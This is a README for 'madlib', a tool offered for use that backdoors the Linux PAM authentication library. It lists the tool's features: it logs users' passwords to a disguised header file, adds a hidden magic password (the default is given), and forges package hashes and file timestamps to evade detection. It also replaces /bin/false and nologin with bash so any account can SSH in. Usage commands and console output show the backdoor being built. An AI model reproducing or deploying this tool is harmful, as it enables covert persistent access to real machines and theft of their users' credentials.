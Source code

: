 # madlib
## Features: 
* Logs username/passwords to file
* Obfuscates backdoor password with bcrypt (helps make reverse engineering more difficult and string dumps less effective)
* Automatically updates the DPKG MD5 hashes for all moved/replaced files
* Time stomps all moved/replaced files
* Replaces /bin/false, and /bin/nologin with /bin/bash (effectively making any user able to ssh in)
## Requirements:
* Requires Python3
* Root privileges needed
## Default Entries:
* Username/passwords by default are logged to /usr/include/type.h
* The default magic password is secretpassxd


## Usage

Manually Specifying PAM Version:

```
root@homebase /h/r/madlib# ./pam.py "1.3.0"
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:15:55] [+] PAM TAR Download Completed
[00:15:56] [+] Finishing Extracting
[00:15:56] [+] Added Backdoor
[00:16:16] [+] Finished Compiling Tainted Lib
[00:16:16] [+] Finished Successfully
```

Automatic Version Detection:

```
root@homebase /h/r/madlib# ./pam.py
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:17:55] [!] Detected PAM Version: '1.3.0'
[00:17:55] [+] PAM TAR Download Completed
[00:17:56] [+] Finishing Extracting
[00:17:56] [+] Added Backdoor
[00:18:16] [+] Finished Compiling Tainted Lib
[00:18:16] [+] Finished Successfully
```
